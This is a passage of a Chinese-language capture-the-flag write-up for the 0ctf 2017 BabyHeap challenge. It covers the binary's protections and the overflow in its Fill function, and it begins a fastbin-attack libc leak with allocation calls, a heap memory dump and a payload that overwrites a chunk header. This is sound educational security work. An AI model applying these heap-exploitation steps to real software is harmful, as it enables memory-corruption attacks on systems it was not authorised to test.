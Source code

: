 ## 0ctf 2017 BabyHeap
### 1. 题目分析
```
  Arch:     amd64-64-little
  RELRO:    Full RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      PIE enabled
```
> 如果`RELRO: Partial RELRO`, 有可能是格式化字符串。

**结论**: 保护全开，一般是有关堆方面的题。
### 2. 程序运行
```
===== Baby Heap in 2017 =====
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command:
```
**1. Allocate**
> 分配内存

**2. Fill**
> 填充内容，可填充任意字长的内容，漏洞就出在此处。

**3. Free**
> 释放内存。

**4. Dump**
> 打印内容。

### 3. 漏洞分析（借鉴自[gd师傅的看雪专栏](https://bbs.pediy.com/thread-223461.htm)）
**考察知识点 : fastbin attack**
#### One Part(Leak Address)
> 理论前提:
> >利用 fastbin attack 即 double free 的方式泄露 libc 基址，当只有一个 small/large chunk 被释放时，small/large chunk 的 fd 和 bk 指向 main_arena 中的地址，然后 fastbin attack 可以实现有限的地址写能力

下面就围绕这点展开论述:
* First Step
```
alloc(0x60)
alloc(0x40)
对应的内存:                                           
0x56144ab7e000:	0x0000000000000000	0x0000000000000071 --> chunk0 header
0x56144ab7e010:	0x0000000000000000	0x0000000000000000
0x56144ab7e020:	0x0000000000000000	0x0000000000000000
0x56144ab7e030:	0x0000000000000000	0x0000000000000000
0x56144ab7e040:	0x0000000000000000	0x0000000000000000
0x56144ab7e050:	0x0000000000000000	0x0000000000000000
0x56144ab7e060:	0x0000000000000000	0x0000000000000000
0x56144ab7e070:	0x0000000000000000	0x0000000000000051 --> chunk1 header
0x56144ab7e080:	0x0000000000000000	0x0000000000000000
0x56144ab7e090:	0x0000000000000000	0x0000000000000000
0x56144ab7e0a0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0b0:	0x0000000000000000	0x0000000000000000
```
* Second Step
```
Fill(0x10, 0x60 + 0x10, "A" * 0x60 + p64(0) + p64(0x71)) --> 开始破坏chunk1 header
```